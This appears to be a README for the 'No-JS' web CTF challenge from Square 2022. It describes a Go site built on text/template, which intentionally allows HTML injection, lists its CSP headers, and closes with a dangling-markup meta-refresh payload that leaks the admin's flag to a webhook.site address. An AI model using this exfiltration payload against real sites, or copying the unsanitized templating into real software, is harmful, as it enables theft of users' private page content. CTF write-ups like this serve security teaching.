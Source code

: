 # No-JS

Square 2022 Web CTF challenge

## Description

Reverting back to the ye-olde days, absolutely no javascript is allowed on my pure site. No vulnerabilities allowed here, no sir!

## Notes

The flag is stored as a post on the admin user's profile. When you share a note to the admin, it'll show up in the same page as the post (`"/"`), and the admin bot will visit it.

The site (intentionally) uses Go's `text/template` instead of `html/template` package. This allows for arbitrary HTML injection to occur on the site, as text/template doesn't attempt to sanitize at all. The site also sets the following security headers:

```
Content-Security-Policy: "default-src 'self'; script-src 'none'"
X-XSS-Protection: 0
X-Content-Type-Options: "nosniff"
X-Frame-Options: "sameorigin"
```

This has the following (important to note) consequences:
1. No javascript is allowed to execute at all on the page. 
2. Unsafe-inline isn't set, so inline <style></style> tags are also blocked. 

The flag is in the admin post below. To leak the post, you can do dangling markdown as follows:

```
<meta http-equiv="refresh" content='0; url=https://webhook.site/#!/your_webhook_site_id?
```
